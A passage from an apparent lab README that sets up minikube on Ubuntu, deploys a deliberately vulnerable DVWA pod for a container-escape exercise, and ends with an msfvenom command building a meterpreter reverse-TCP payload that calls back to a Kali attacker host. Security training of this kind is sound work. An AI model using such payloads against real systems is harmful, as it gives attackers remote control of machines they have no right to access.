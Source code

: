 - login to your Ubuntu machine

```bash
ssh ubuntu@<ubuntu-public-ip-address>
```

- start the minikube kubernetes cluster

```bash
ubuntu@ip-10-0-4-175:~$ minikube start --driver=docker
😄  minikube v1.25.2 on Ubuntu 20.04 (xen/amd64)
✨  Using the docker driver based on user configuration
👍  Starting control plane node minikube in cluster minikube
🚜  Pulling base image ...
💾  Downloading Kubernetes v1.23.3 preload ...
    > preloaded-images-k8s-v17-v1...: 505.68 MiB / 505.68 MiB  100.00% 52.76 Mi
    > gcr.io/k8s-minikube/kicbase: 379.06 MiB / 379.06 MiB  100.00% 28.09 MiB p
🔥  Creating docker container (CPUs=2, Memory=2200MB) ...
🐳  Preparing Kubernetes v1.23.3 on Docker 20.10.12 ...
    ▪ kubelet.housekeeping-interval=5m
    ▪ Generating certificates and keys ...
    ▪ Booting up control plane ...
    ▪ Configuring RBAC rules ...
🔎  Verifying Kubernetes components...
    ▪ Using image gcr.io/k8s-minikube/storage-provisioner:v5
🌟  Enabled addons: storage-provisioner, default-storageclass
🏄  Done! kubectl is now configured to use "minikube" cluster and "default" namespace by default
```

- deploy the DVWA in the kubernetes cluster

```bash
ubuntu@ip-10-0-4-175:~$ kubectl apply -f dvwa-minikube-deployment.yaml
```

- get the POD name

```bash
ubuntu@ip-10-0-4-175:~$ kubectl get pods
NAME                                     READY   STATUS    RESTARTS   AGE
dvwa-container-escape-8654469d85-7kszd   1/1     Running   0          35s
```

- configure a port forwarding for the DVWA WebApp

```bash
ubuntu@ip-10-0-4-175:~$ kubectl port-forward --address 0.0.0.0 <dvwa-container-escape-....> 8080:80
```

- login via another console to your Kali machine

```bash
ssh kali@<kali-public-ip-address>
```

- create the meterpreter for the DVWA container

```bash
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<kali privat ip> LPORT=4242 -f elf > met-container
```
